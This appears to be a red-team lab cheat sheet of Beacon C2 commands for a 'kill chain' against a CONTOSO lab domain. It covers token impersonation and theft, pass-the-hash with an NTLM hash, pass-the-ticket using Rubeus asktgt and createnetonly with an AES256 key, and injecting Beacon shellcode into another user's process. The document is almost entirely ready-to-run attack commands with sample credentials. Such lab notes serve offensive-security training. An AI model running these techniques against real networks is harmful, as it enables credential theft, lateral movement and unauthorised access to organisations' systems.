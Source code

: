 # Kill Chain

## Token Impersonation <a href="#token-impersonation" id="token-impersonation"></a>

### Make Token <a href="#make-token" id="make-token"></a>

1. From the medium-integrity Beacon, create and impersonate an access token for rsteel.
   1. `make_token CONTOSO\rsteel Passw0rd!`
2. Drop the impersonation.
   1. `rev2self`

### Steal Token <a href="#steal-token" id="steal-token"></a>

1. From the high-integrity Beacon, open the Process Browser.
   1. `process_browser`
2. Select a process owned by rsteel.
3. Steal the primary access token of that process and add it to the token store.
   1. Click **Steal Token**.
   2. Mask Type: `TOKEN_ALL_ACCESS`
   3. Store: true
4. Impersonate that token.
   1. Run token-store use 0 from the Beacon console.
5. Drop the impersonation.
   1. `rev2self`
6. Remove the token from the store.
   1. `token-store remove 0`

&#x20;

## Pass the Hash <a href="#pass-the-hash" id="pass-the-hash"></a>

1. From the high-integrity Beacon, perform a PtH attack for Robert Steel.
   1. `pth CONTOSO\rsteel fc525c9683e8fe067095ba2ddc971889`
2. Drop the impersonation.
   1. `rev2self`&#x20;

## Pass the Ticket <a href="#pass-the-ticket" id="pass-the-ticket"></a>

1.  Using their AES256 key, request a TGT for rsteel from the medium-integrity Beacon.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap
    ```
2.  From the high-integrity Beacon, inject and impersonate the ticket.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]
    ```

    1. `steal_token [PID]`
3. Drop the impersonation.
   1. rev2self
   2. kill \[PID]

## Process Injection <a href="#process-injection" id="process-injection"></a>

1. From the high-integrity Beacon, open the Process Browser.
   1. `process_browser`
2. Select a process owned by rsteel.
3. Inject Beacon shellcode into that process.
   1. Click **Inject**.
   2. Select the tcp-local listener.
